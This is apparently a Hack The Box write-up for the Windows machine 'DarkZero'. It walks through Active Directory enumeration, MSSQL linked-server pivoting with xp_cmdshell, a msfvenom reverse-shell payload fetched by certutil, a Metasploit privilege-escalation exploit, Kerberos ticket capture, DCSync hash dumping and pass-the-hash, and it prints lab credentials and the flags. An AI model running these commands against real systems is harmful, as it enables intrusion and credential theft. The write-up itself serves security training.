


# Hack The Box — DarkZero


## Summary

This document provides a detailed walkthrough for the Hack The Box machine DarkZero. This is a Hard-rated Windows machine that involves deep enumeration of Active Directory, pivoting through a linked MSSQL server, and multiple paths to privilege escalation.

Initial Information
The machine is part of an Active Directory environment. As stated in the machine information, we are provided with initial credentials to start our penetration test.

## Target

- Machine IP: 10.10.11.89

- Domain: darkzero.htb

- Initial Credentials: john.w:RFulutONCOL!


## Reconnaissance

Run fast scans using `nmap`:

```bash
# Nmap 7.95 scan initiated Thu Oct  9 14:47:13 2025 as: /usr/lib/nmap/nmap -sCV -T5 -onmap_result 10.10.11.89
Nmap scan report for 10.10.11.89
Host is up (0.054s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-09 19:22:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.89:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
| ms-sql-info: 
|   10.10.11.89:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-10-09T19:24:06+00:00; +35m08s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-09T16:25:56
|_Not valid after:  2055-10-09T16:25:56
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2025-07-29T11:40:00
|_Not valid after:  2026-07-29T11:40:00
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 35m04s, deviation: 2s, median: 35m03s
| smb2-time: 
|   date: 2025-10-09T19:23:24
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  9 14:49:01 2025 -- 1 IP address (1 host up) scanned in 108.48 seconds
```
Port scan reveals:
- 88/464: Kerberos
- 389/636/3268/3269: LDAP/GC
- 445: SMB
- 1433: Microsoft SQL Server 2022

## Active Directory Enumeration with BloodHound

With the provided credentials, the first step is to enumerate the domain to understand its structure, users, computers, and potential attack vectors.

To get a comprehensive view of the Active Directory environment, we use BloodHound. We run the Python collector with our credentials to gather data about users, groups, computers, and permissions.

```Bash
bloodhound-python -u 'john.w' -p 'RFulutONCOL!' -d darkzero.htb -ns 10.10.11.89 --collectionmethod All --zip
```


We then tried to upload the collected data is then ingested into the BloodHound GUI for analysis. But we failed as it says that it is partially complete.


## Active Directory Enumeration with Impacket

**1) Enumerate Domain Users with GetADUsers.py**

This script queries the domain for a list of all user accounts. This is a fundamental step to understand who the users are in the domain and to build a potential target list.

```Bash
python3 GetADUsers.py 'darkzero.htb/john.w:RFulUtONCOL!' -dc-host DC01.darkzero.htb -dc-ip 10.10.11.89
```


**2) Enumerate Domain Computers with GetADComputers.py**

This script lists all computer accounts joined to the domain. This helps us identify servers, workstations, and domain controllers, which are all potential targets for lateral movement.

```Bash
python3 GetADComputers.py 'darkzero.htb/john.w:RFulUtONCOL!' -dc-host DC01.darkzero.htb -dc-ip 10.10.11.89
```


**3) Check for Kerberoastable Users with GetUserSPNs.py**

This tool attempts the "Kerberoasting" attack. It queries the domain for user accounts that have a Service Principal Name (SPN) set. If found, it requests a Kerberos service ticket (TGS) for that service, which can be cracked offline to recover the user's password hash. The output "No entries found!" indicates that no users are vulnerable to this attack.

```Bash
python3 GetUserSPNs.py 'darkzero.htb/john.w:RFulUtONCOL!' -dc-host DC01.darkzero.htb -dc-ip 10.10.11.89 -request -outfile kerberoast.hash -k
```


**4) Check for AS-REP Roastable Users with GetNPUsers.py**

This tool attempts the "AS-REP Roasting" attack. It identifies users who have Kerberos pre-authentication disabled (UF_DONT_REQUIRE_PREAUTH). For such users, an attacker can request a piece of encrypted data (an AS-REP) that can be cracked offline to reveal the user's password, without needing any prior credentials for that user. The output shows that our user john.w does not have this setting enabled, so this vector is not available.

```Bash
python3 GetNPUsers.py darkzero.htb/ -dc-ip 10.10.11.89 -usersfile user.txt
```


## SMB Enumeration
We check for accessible SMB shares using crackmapexec and smbmap. This reveals that our user john.w has read access to the SYSVOL and NETLOGON shares.

```Bash

crackmapexec smb 10.10.11.89 -d darkzero.htb -u "john.w" -p 'RFulutONCOL!'
smbmap -H 10.10.11.89 -d darkzero.htb -u "john.w" -p 'RFulutONCOL!'
We can explore these shares using smbclient. While we can browse the directories, no sensitive files were immediately found.
```


We proceed to connect to the SYSVOL share using smbclient to look for sensitive information like scripts or Group Policy Preferences (GPP) files which can sometimes contain passwords.

```Bash
smbclient //10.10.11.89/SYSVOL -U 'darkzero.htb/john.w'
```


After exploring the directories within the share, we found nothing of immediate interest that could be used for exploitation.

## Initial Foothold via MSSQL

Our nmap scan highlighted an open MSSQL port (1433). Since direct AD attacks were unfruitful, we investigate this service. We can connect to it using our domain credentials with mssqlclient.py.

```Bash
mssqlclient.py darkzero.htb/john.w:'RFulutONCOL!'@10.10.11.89 -windows-auth
```


### MSSQL Enumeration

Once connected, we begin enumerating the database. We check our current user privileges and find that we are not a sysadmin on this instance (DC01).

```SQL
SELECT SUSER_SNAME() AS LoginName;
SELECT IS_SRVROLEMEMBER('sysadmin') AS IsSysAdmin;
```


We list the available databases and tables but don't find anything immediately useful in the master, tempdb, or msdb databases.


### Pivoting Through a Linked Server

A crucial discovery is made when we enumerate linked servers using the sp_linkedservers stored procedure. We find a link to another server: DC02.darkzero.ext.

```SQL
EXEC sp_linkedservers;
```



We can execute queries on this linked server. We attempt to list its databases.

```SQL
use_link [DC02.darkzero.ext]
select name from sys.databases;
```


Most importantly, we check our privileges on this linked server. The query reveals that our context on DC02 is dc01_sql_svc, which is a member of the sysadmin role.

```SQL
SELECT IS_SRVROLEMEMBER('sysadmin') AS IsSysAdmin;
SELECT SUSER_SNAME() AS LoginName;
```


With sysadmin rights, we can enable xp_cmdshell to execute commands on the DC02 server.

```SQL
EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];
EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];
```


We verify that xp_cmdshell works by running `sc qc MSSQLSERVER`. The command executes successfully and reveals the service account name.


### Gaining a Shell

Steps in order to gain foothold:

Now that we have command execution, we can get a reverse shell. We Generate a Windows Meterpreter reverse TCP payload with msfvenom.

```Bash

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.110 LPORT=4444 -f exe -o rev_x64.exe
Host Payload: Start a Python HTTP server to serve the payload.
```


Now we use python to host the directory into a server.

```Bash
python3 -m http.server 80
```

We then use xp_cmdshell to download the payload to the C:\Windows\Temp directory on DC02 and then execute it.

```SQL
EXEC ('xp_cmdshell ''certutil -urlcache -f http://10.10.14.110/rev_x64.exe C:\Windows\Temp\rev_x64.exe''') AT [DC02.darkzero.ext];
EXEC ('xp_cmdshell ''C:\Windows\Temp\rev_x64.exe''') AT [DC02.darkzero.ext];
```


**Catch Shell:**
A Metasploit multi/handler catches the connection, giving us a Meterpreter session on DC02.

## Privilege Escalation to USER SYSTEM (User Flag)

We now have a shell on DC02. The next step is to escalate privileges to SYSTEM.

### Kernel Exploit
First, we check our current privileges with whoami /priv.


Not much priviledge on our user's account.

### Vulnerabilities Analyzing using Winpeas.exe

To analyze vulnerability for potential priviledge escalation we then perform enumeration on the compromised machine. We download and run winPEAS.

```PowerShell
certutil -urlcache -f http://10.10.14.110/winPEAS.exe C:\Users\Public\Downloads\winPEAS.exe
```


The systeminfo command (or winPEAS output) shows the OS is Windows Server 2022 Datacenter.


We search Metasploit for local privilege escalation exploits for Windows Server 2022.

```Bash
search windows 2022
```


The exploit `exploit/windows/local/cve_2024_30088_authz_basep` looks 
promising. We background our current session, load the exploit, set the SESSION option, and run it.


```Bash
use exploit/windows/local/cve_2024_30088_authz_basep
set SESSION 4
run
```


The exploit succeeds, and we get a new Meterpreter session running as NT AUTHORITY\SYSTEM.


We can now read the user.txt flag inside the Administrator Desktop.

**User Flag:** `0c13666c2d8ca9234e79be86d5e6bd3a`


However, I couldn't find the Root Flag anywhere. So I remember earlier that this server has 2 DC, so i suspect that the Root Flag is located on the administrator's desktop of the Domain Controller (DC01). We need to pivot.

### Kerberos Abuse (Pass-the-Ticket)

This is the intended and more complex path to full domain compromise.

**Coerce Authentication:**
From our initial MSSQL shell on DC01, we can use xp_dirtree to make DC02 attempt to authenticate to our machine over SMB. This step is a common technique in Active Directory (AD).


**Monitor for Tickets:** 
On DC01 (pivoting from DC02), we upload and run Rubeus.exe to monitor for new Kerberos Ticket Granting Tickets (TGTs). We managed to captured a TGT for the `DC01$` machine account.


**Extract and Convert Ticket:** 
We then copy the Base64-encoded ticket, decode it, and save it as a `.kirbi` file.

```Bash
base64 -d file.b64 > dc01.kirbi
```



Then, we convert the .kirbi file to the .ccache format required by Impacket scripts.

```Bash
ticketConverter.py dc01.kirbi dc01.ccache
```


### Pass-the-Ticket & Dump Hashes

We set the KRB5CCNAME environment variable to point to our ticket file. With this ticket, we impersonate the DC01$ machine account and use secretsdump.py to perform a DCSync attack and dump all the password hashes from the domain.

```Bash
export KRB5CCNAME=$(pwd)/dc01.ccache
secretsdump.py -k -no-pass -just-dc-user darkzero/administrator darkzero.htb
```


### Pass-the-Hash to SYSTEM 

We now have the NTLM hash for the darkzero\Administrator account. We can use this hash with psexec.py to gain a SYSTEM-level shell on the domain controller DC01.

```Bash
psexec.py -hashes <ADMIN_HASH> darkzero.htb/Administrator@10.10.11.89
```


Now, with full control over the Domain Controller, we can easily retrieve the Root Flag.

```PowerShell
# Get root flag
type C:\Users\Administrator\Desktop\root.txt
```


**Root Flag:** `ea717cc87cd2e5970eae400c38a17856`

## PWNED


## Conclusion
The machine has been successfully compromised, and both flags have been captured.

---
*This writeup is for educational purposes only. Always ensure you have proper authorization before testing security vulnerabilities.*